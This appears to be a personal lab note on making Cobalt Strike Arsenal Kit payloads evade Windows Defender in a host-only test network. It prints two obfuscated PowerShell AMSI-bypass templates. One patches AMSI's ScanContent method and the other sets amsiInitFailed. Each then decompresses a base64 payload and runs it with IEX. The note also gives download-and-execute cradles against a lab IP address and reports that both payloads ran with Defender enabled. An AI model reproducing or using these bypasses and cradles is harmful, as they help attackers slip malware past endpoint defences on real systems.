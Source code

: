 enabling `defender` - make sure `network settings` are host only
![[Pasted image 20250506204618.png]]
`artifact kit` successfully bypassing defender, the `compress.ps1` is getting caught in `resource kit`
![[Pasted image 20250506205010.png]]
artifact  kit beacon
![[Pasted image 20250506205543.png]]
changing `compress.ps1` variable to `hellohellohello`
```bash
class TrollAMSI{static [int] M([string]$c, [string]$s){return 1}} [System.Runtime.InteropServices.Marshal]::Copy(@([System.Runtime.InteropServices.Marshal]::ReadIntPtr([long]([TrollAMSI].GetMethods() | Where-Object Name -eq 'M').Met    hodHandle.Value + [long]8)),0,[long]([Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls').GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq ScanContent).MethodHandle.Value + [long    ]8,1);$hellohellohello=New-Object IO.MemoryStream(,[Convert]::FromBase64String("%%DATA%%"));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($hellohellohello,[IO.Compression.CompressionMode]::Decompress))).ReadTo    End();   
```
and rebuilding arsenal kit
![[Pasted image 20250506205829.png]]
reloading the `arsenal_kit.cna`
![[Pasted image 20250506205902.png]]and clearing `teamserver`
![[Pasted image 20250506205946.png]]
generating new `listeners`
generating new `payloads`
hosting `web scripted delivery `
![[Pasted image 20250506210135.png]]
`iex(iwr http://192.168.127.132/resources -useb)` 
`iex(iwr http://192.168.127.132/a -useb)` 
still got caught 
![[Pasted image 20250506210339.png]]
find a new `amsi bypass`
tyler found the issue, and it is needed a new `amsi` saving to `ssd`
```bash
┌──(root💀gobots)-[12May2025 20:35:03]-[/home/…/cobaltstrike/arsenal-kit/kits/resource]
└─# cat compress.ps1               
$vgNKSBBlzqdmT3Pndwsn=$null;$Fay="System.$([chaR]([byTE]0x4d)+[chAR]([byTe]0x61)+[cHAR](99+11)+[cHar]([bYte]0x61)+[CHAr](70+33)+[ChAR]([byTE]0x65)+[Char]([bytE]0x6d)+[chAR]([ByTE]0x65)+[ChaR](110+34-34)+[chaR]([bYte]0x74)).$(('A'+'u'+'t'+'o'+'m'+'a'+'t'+'i'+'o'+'n').NoRmalize([cHaR]([BYTE]0x46)+[cHAr]([bYTE]0x6f)+[chaR](114+61-61)+[ChaR]([bytE]0x6d)+[chaR]([BYte]0x44)) -replace [chAR]([BYTE]0x5c)+[CHar](112+65-65)+[ChAR]([BYTE]0x7b)+[CHaR](77*68/68)+[CHAr]([ByTE]0x6e)+[ChAr](125+6-6)).$([cHAR](65+4-4)+[cHAr](109*89/89)+[char](115)+[CHar]([ByTE]0x69)+[chAR](85)+[cHaR](116+73-73)+[chAr](105*15/15)+[ChaR]([bYte]0x6c)+[cHAr]([BYTE]0x73))";$ldtwylucppodismowudupogjnakr="+('dôhpptjvàèlql'+'gknkhvé').NOrmAlIze([chaR]([bYTe]0x46)+[ChAR]([bYte]0x6f)+[ChAr](114+2-2)+[chaR]([bYtE]0x6d)+[Char](68)) -replace [chAR](92*9/9)+[CHAR](112*64/64)+[ChaR]([Byte]0x7b)+[cHAr](77*26/26)+[CHar](110+103-103)+[CHar]([BYte]0x7d)";[Threading.Thread]::Sleep(1891);[Ref].Assembly.GetType($Fay).GetField($(('amsiInitF'+'ailed').NormAlIZE([cHAR](70*15/15)+[chaR](111)+[chAr](114+31-31)+[chAr](13+96)+[CHaR]([ByTE]0x44)) -replace [CHAR]([bYTe]0x5c)+[cHAr]([bYTe]0x70)+[char]([BYTe]0x7b)+[cHAR](77*34/34)+[CHAR](110)+[CHaR](125)),"NonPublic,Static").SetValue($vgNKSBBlzqdmT3Pndwsn,$true);$hagdcrsplbprmhtxfee="+[chAr](112)+[char]([BYtE]0x71)+[cHar](113*6/6)+[CHaR]([BytE]0x65)+[cHaR](110*99/99)+[ChAR]([BYTe]0x67)+[cHaR](121*110/110)+[chAR]([bYTe]0x7a)+[cHAR]([BYtE]0x7a)+[chAR]([bYtE]0x6a)+[CHAr](98+68-68)+[cHAr]([bytE]0x6c)+[chAR](106)+[cHAR]([bYTE]0x6e)+[CHAR](109+93-93)+[CHAr]([ByTE]0x6e)+[CHar](44+72)+[CHAR](103+14-14)+[chaR]([BYtE]0x62)+[CHaR](115*23/23)+[ChAR]([Byte]0x72)+[char]([bYte]0x79)+[cHaR](105+71-71)+[CHaR](106+75-75)+[CHAR]([ByTE]0x6b)";[Threading.Thread]::Sleep(424);$thegreatest=New-Object IO.MemoryStream(,[Convert]::FromBase64String("%%DATA%%"));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($thegreatest,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```
the top one is the `resource kit` with `iex(iwr http://192.168.127.132/a -useb)`
the bottom one is `artifact kit` with `wget http://192.168.127.132:80/artifacttest -UseBasicP -OutFile "C:\Users\blaster\Desktop\artkittest.exe"`
![[Pasted image 20250512171013.png]]
both of which able to execute with `defender` enabled
![[Pasted image 20250512171030.png]]